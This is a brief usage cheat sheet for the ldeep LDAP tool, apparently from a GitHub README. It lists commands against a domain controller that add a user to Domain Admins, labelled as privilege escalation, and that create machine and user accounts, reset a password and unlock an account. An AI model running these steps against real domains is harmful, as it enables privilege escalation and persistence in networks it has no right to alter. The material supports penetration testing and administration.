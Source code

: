 # Ldeep

## Usage

### 1) Privilege Escalation (Add our user to Domain Admins group for example)

    ldeep ldap -u USER1 -p Password@1 -d domain.local -s ldap://DC_IP add_to_group "CN=TARGET_USER,CN=users,DC=DOMAIN,DC=LOCAL" "CN=Domain Admins,CN=users,DC=DOMAIN,DC=LOCAL"

### 2) Machine Account creation

    ldeep ldap -u USER1 -p Password@1 -d domain.local -s ldap://DC_IP create_computer NEWPC$ Password@123

### 3) User creation

    ldeep ldap -u USER1 -p Password@1 -d domain.local -s ldap://DC_IP create_user fakeuser Password@123

### 4) Password Reset

    ldeep ldap -u USER1 -p Password@1 -d domain.local -s ldap://DC_IP modify_password fakeuser Password@1

### 5) Account Unlock

    ldeep ldap -u USER1 -p Password@1 -d domain.local -s ldap://DC_IP unlock TARGET_USER


